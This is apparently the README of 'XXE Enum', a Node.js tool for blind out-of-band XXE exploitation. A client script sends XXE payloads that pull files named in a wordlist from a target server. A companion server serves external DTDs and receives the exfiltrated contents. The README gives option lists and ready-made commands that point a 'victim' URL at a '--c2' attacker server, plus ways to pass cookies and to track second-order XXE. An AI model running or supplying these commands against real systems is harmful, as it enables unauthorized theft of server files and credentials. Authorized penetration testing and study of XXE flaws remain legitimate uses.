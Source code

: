 # XXE Enum
Enumerate and exfiltrate files via out of band XXE, for situations where resolved entity is not displayed in the response, and directory listing is not available.

client.js would take a list of filenames, try exfiltrate the content of those files via XXE from your main target server, and server.js would serve external DTDs and receive the exfiltrated file content.

If other servers are parsing XML stored in your main target at a later time, you could also configure your server to serve a different DTD to conduct a different action or to track which server that "/etc/passwd" was from.

## Usage
**server.js**

```
$ node server.js -h

Options
        -h						Print this message

        -p <port>		The listening port, e.g. -p 1337, default 8800
        --b64			Use this option if expecting file content to be passed as base64
        --target <target_ip>	Use this option if you want to send different dtds to different servers, 
        e.g. send "send.dtd" only to your main target (target_ip), and send "send-alt.dtd" to any potential second order XXEs
        --https			Use this option if you want to start https server
        --key <key file>	The key file used to start https server, e.g. --key /root/key.pem
        --cert <cert file>	The cert file used to start https server, e.g --cert /root/cert.crt

// out of the box
$ node server.js

// use a different port
$ node server.js -p 1337

// start a https server
$ node server.js -p 1337 --https --key /root/key.pem --cert /root/cert.crt

// serve send.dtd only to 192.168.1.100, while send send-alt.dtd to all other IPs, 
// if they are requesting the external DTD, i.e. vulnerable to XXE
$ node server.js --target 192.168.1.100
```

**client.js**

```
$ node client.js -h

Options
        -h			Print this message

        -u <url>		(Required) the victim page, e.g. -u http://vulnerable.site:8080/page.php?a=1
        -w <wordlist>		(Required) the wordlist to load, e.g. -w /usr/share/wordlists/filenames.txt
        --c2 <url>		(Required) the server where server.js is run and waiting for incoming request 
        from victim, e.g. --c2 http://attacker.site:8090

        --proxy <proxy>		The http proxy to go through for all requests, e.g. --proxy http://127.0.0.1:8080
        --base <path>		The base path prefixed to all filenames, e.g. --base "/var/www", default "/"
        --php			Use this option if the server can handle php protocols, i.e. able to encode 
        the file content using base64
        -t <thread>		Indicate how many threads to run simultaneously, e.g. -t 15, default 5
        -v			Verbose output
        --headers <headers>	Additional request headers (besides content-type, content-length, and host) in JSON format, e.g. --headers '{"X-CSRF-Token": "awesome_token", "Cookie": "sid=secret_session; admin=1;"}'
        --body <xml>		The normal POST request body, e.g. --body "<subscribe><email>test@example.com</email><name>test</name></subscribe>", 
        default: <login><username>test</username><password>test</password></login>

// minimal
$ node client.js -u http://192.168.1.100/subscribe.php?redirect=1 \
-w /usr/share/wordlists/filenames.txt \
--c2 http://192.168.1.200:8800

// full blown
$ node client.js -u http://192.168.1.100/subscribe.php?redirect=1 \
-w /usr/share/wordlists/filenames.txt --c2 http://192.168.1.200:8800 \
--proxy http://127.0.0.1:8080 --base "/var/www" -t 15 --php -v \
--headers '{"Cookie": "sid=secret_session; admin=1;", "Referer": "http://192.168.1.100/index.php"}' \
--body "<subscribe><email>test@example.com</email><name>test</name></subscribe>"
```

## TODO
- https proxy not working. Only http proxy atm